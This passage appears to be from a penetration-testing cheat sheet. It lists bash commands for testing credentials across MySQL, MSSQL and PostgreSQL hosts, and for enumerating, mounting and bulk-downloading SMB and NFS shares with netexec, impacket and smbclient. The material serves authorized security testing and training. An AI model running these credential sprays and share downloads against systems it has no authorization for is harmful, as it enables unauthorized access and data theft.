 ```bash
# Test credentials on all MySQL servers
for ip in $(cat mysql_hosts.txt); do
    echo "[*] Testing $ip"
    mysql -h $ip -u root -p'PASSWORD' -e "SELECT version();" 2>/dev/null && echo "Access on $ip!"
done

# Connect to target
mysql -h TARGET -u root -p'PASSWORD'
```

### MSSQL

```bash
# Test credentials
netexec mssql 10.10.10.0/24 -u sa -p 'PASSWORD'

# Connect to accessible server
impacket-mssqlclient DOMAIN/username:password@TARGET
```

### PostgreSQL

```bash
# Test credentials
for ip in $(cat postgres_hosts.txt); do
    psql -h $ip -U postgres -W >/dev/null 2>&1 && echo "Access on $ip!"
done
```

---

## Share Access and File Servers

### SMB Shares

```bash
# List accessible shares
netexec smb TARGET -u username -p 'password' --shares

# Connect to share
smbclient //TARGET/ShareName -U "username%password"

# Mount share
sudo mount -t cifs //TARGET/share /mnt/smb -o user=username,password=password

# Download all files from share
smbget -R smb://TARGET/share -U username%password
```

### NFS Shares

```bash
# Mount discovered NFS export
sudo mount -t nfs TARGET:/export /mnt/nfs -o nolock

# Browse contents
ls -la /mnt/nfs/
```

---
